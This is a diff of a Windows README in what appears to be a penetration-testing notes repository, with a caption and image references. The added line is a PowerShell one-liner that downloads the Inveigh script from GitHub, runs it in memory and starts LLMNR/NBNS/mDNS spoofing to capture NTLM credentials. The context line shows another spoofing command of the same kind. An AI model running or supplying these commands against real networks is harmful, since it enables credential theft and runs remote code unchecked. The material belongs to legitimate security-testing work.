

Before and after one commit to ville87/offsec, a Markdown page: Windows/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/Windows/README.md
+++ b/Windows/README.md
@@ -35,6 +35,7 @@
   Note: Requires elevated privileges!
   Example:
   `Invoke-Inveigh -LLMNR Y -mDNS Y -NBNS Y -SpooferIP 172.10.10.1 -ConsoleOutput Y -HTTP N`
+  `IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1");Invoke-Inveigh -ConsoleOutput Y -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y`
 
 - SSLScan
   https://github.com/rbsec/sslscan/releases/
```
